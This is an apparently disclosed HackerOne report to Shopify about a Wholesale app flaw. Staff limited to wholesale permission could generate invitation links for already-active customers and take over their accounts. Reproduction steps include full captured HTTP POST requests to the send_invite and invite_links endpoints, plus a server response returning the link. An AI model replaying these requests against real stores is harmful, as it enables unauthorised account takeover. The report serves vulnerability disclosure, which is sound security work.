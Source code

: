 # Staff who only have apps and channels permission can do a takeover account at the wholesale store (Bypass get invitation link)

## Report Details
- **Report ID**: 1266828
- **URL**: https://hackerone.com/reports/1266828
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-17T14:22:58.909Z
- **Disclosed**: 2021-11-21T14:59:37.507Z

## Reporter
- **Username**: urfavenemy01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify

## Vulnerability Information
When we invite customers at the wholesale store there is a feature to "Send invite" and "Get invite link" the get invite link feature displays the customner invitation link and can only be used once, but when the customer has accepted the invitation and actived their account already have access to wholesale store then these 2 features will not be able to be used again, this works as it should and the invitation link itself can be used to change the customer's account password, maybe this is why the "Get invite link" feature cannot be used again when the customer has activated his account because to avoid takeover accounts, but here I found a vulnerability to bypass getting an activated account customer invite link so that staff who only have Wholesale permission can get an invitation link even though the customer has activated his account which causes the takeover account

Step to reproduce :

I tested with Shopify plus partner sandbox store

1.  Login to the store using the account staff who only has permission to wholesale
2.  At wholesale customers, customers whose accounts are already active will have the status of Enable

{F1380035}

3.  Here you will not be able to use the Send invite and Get invite link features, and if you use these features you will get an error

Error when using the send invite feature :

{F1380038}

Error when using the Get invite link feature :

{F1380040}

Here we cannot get a Get invite link, but in this vulnerability we can get a Get invite link for the customer account that has been activated

4.  Here we do 2 post requests using burpsuite,

Requests :

```
POST /admin/shops/19596/accounts/{ID ACCOUNT}/send_invite HTTP/2
Host: wholesale.shopifyapps.com
Cookie: _y=89dc5b45-EA1A-44DA-7630-F0F7AA8DFC4A; _shopify_y=89dc5b45-EA1A-44DA-7630-F0F7AA8DFC4A; _ga=GA1.2.tHExgAAT11NXuhaT9YUE8g%253D%253D; _session_id=fc5f618342a1e6b09a1b0dd8f663c815; shopify_domain=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkluTmpjbWx3ZEMxemNtTXRhSFIwY0hNdGFIbGtjbUY0WVc1dmJpMTRjM010YUhRdGMyTnlhWEIwTG0xNWMyaHZjR2xtZVM1amIyMGkiLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5zaG9waWZ5X2RvbWFpbiJ9fQ%3D%3D--0638dd0f382c4106ac4bc036aef29aff573e7e4f; _gid=GA1.2.1173666896.1626524371; _s=b49fbdf4-ACD4-4EC3-2C95-5B9FC0AB0372; _shopify_s=b49fbdf4-ACD4-4EC3-2C95-5B9FC0AB0372; _gat=1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://wholesale.shopifyapps.com/admin/shops/19596/accounts/5182518?hmac=adf5598e786b95e73d4c6637a457ea38a01f7fb99a14b480c7fbe9c22e53ef80&host=c2NyaXB0LXNyYy1odHRwcy1oeWRyYXhhbm9uLXhzcy1odC1zY3JpcHQubXlzaG9waWZ5LmNvbS9hZG1pbg&locale=en-US&session=6200a0935dc41a7c47776049d06e4b7f513d5b4622342e2851aeb5fc8f2f9f75&shop=script-src-https-hydraxanon-xss-ht-script.myshopify.com&timestamp=1626529478
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: https://wholesale.shopifyapps.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: iframe
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

authenticity_token=qHWmHVuCLbQOWT2cCElOvv%2BAQoHz4AvsMdVzW8zkjiTemE5jx2q7IdeX9nfSnVHA45fbdXVx4oo%2FYhU%2FpnnW8Q%3D%3D
```
Change {ID ACCOUNT} with victim id account

5. After making the request now do this request

Request :

```
POST /admin/shops/19596/accounts/{ID ACCOUNT} /invite_links HTTP/2
Host: wholesale.shopifyapps.com
Cookie: _y=89dc5b45-EA1A-44DA-7630-F0F7AA8DFC4A; _shopify_y=89dc5b45-EA1A-44DA-7630-F0F7AA8DFC4A; _ga=GA1.2.tHExgAAT11NXuhaT9YUE8g%253D%253D; _session_id=fc5f618342a1e6b09a1b0dd8f663c815; shopify_domain=eyJfcmFpbHMiOnsibWVzc2FnZSI6IkluTmpjbWx3ZEMxemNtTXRhSFIwY0hNdGFIbGtjbUY0WVc1dmJpMTRjM010YUhRdGMyTnlhWEIwTG0xNWMyaHZjR2xtZVM1amIyMGkiLCJleHAiOm51bGwsInB1ciI6ImNvb2tpZS5zaG9waWZ5X2RvbWFpbiJ9fQ%3D%3D--0638dd0f382c4106ac4bc036aef29aff573e7e4f; _gid=GA1.2.1173666896.1626524371; _s=b49fbdf4-ACD4-4EC3-2C95-5B9FC0AB0372; _shopify_s=b49fbdf4-ACD4-4EC3-2C95-5B9FC0AB0372; _gat=1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://wholesale.shopifyapps.com/admin/shops/19596/accounts/5182510?hmac=a916ff51bbbb7f51d6ac927131c0b28b08f54458a1062284fdbabd823d43c2f1&host=c2NyaXB0LXNyYy1odHRwcy1oeWRyYXhhbm9uLXhzcy1odC1zY3JpcHQubXlzaG9waWZ5LmNvbS9hZG1pbg&locale=en-US&session=6200a0935dc41a7c47776049d06e4b7f513d5b4622342e2851aeb5fc8f2f9f75&shop=script-src-https-hydraxanon-xss-ht-script.myshopify.com&timestamp=1626529537
X-Csrf-Token: 8TESa0/8klTiTrM0zMpVyEmoGvady47gKvvExY9jFYuH3PoV0xQEwTuAeN8WHkq2Vb+DAhtaZ4YkTKKh5f5NXg==
X-Requested-With: XMLHttpRequest
Origin: https://wholesale.shopifyapps.com
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Length: 0
Te: trailers
Connection: close
```
Change {ID ACCOUNT} with victim id account

Response :

```
HTTP/2 201 Created
Date: Sat, 17 Jul 2021 13:46:27 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 158
Cache-Control: max-age=0, private, must-revalidate
Etag: W/"0e9053914b08296f0e7fae495a23ad27"
P3p: CP="Not used"
Referrer-Policy: origin-when-cross-origin
Server-Timing: processing;dur=97, socket_queue;dur=2, edge;dur=2
Set-Cookie: request_method=POST; path=/; Secure; SameSite=None
Set-Cookie: _session_id=fc5f618342a1e6b09a1b0dd8f663c815; path=/; expires=Sat, 17 Jul 2021 19:46:27 GMT; secure; HttpOnly; SameSite=None
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
X-Content-Type-Options: nosniff
X-Dc: gcp-us-east1,gke
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none
X-Request-Id: 7bf36731f52e3e6d0aec56924968b37c
X-Robots-Tag: noindex,nofollow
X-Runtime: 0.096325
X-Xss-Protection: 1; mode=block

{"invite_link":"https://script-src-https-hydraxanon-xss-ht-script.wholesale.shopifyapps.com/accounts/invitation/accept?invitation_token=█████"}
```


Here we succes to get an invite link belonging to an active account and now we can do an account takeover

## Impact

Vulnerability that allows attackers to get invite links  active accounts that can cause account takeovers

## Attachments
- Screenshot_2021-07-17_at_21-07-21_Shopify_Plus.png
- Screenshot_2021-07-17_at_21-09-29_Shopify_Plus.png
- Screenshot_2021-07-17_at_21-10-37_Shopify_Plus.png
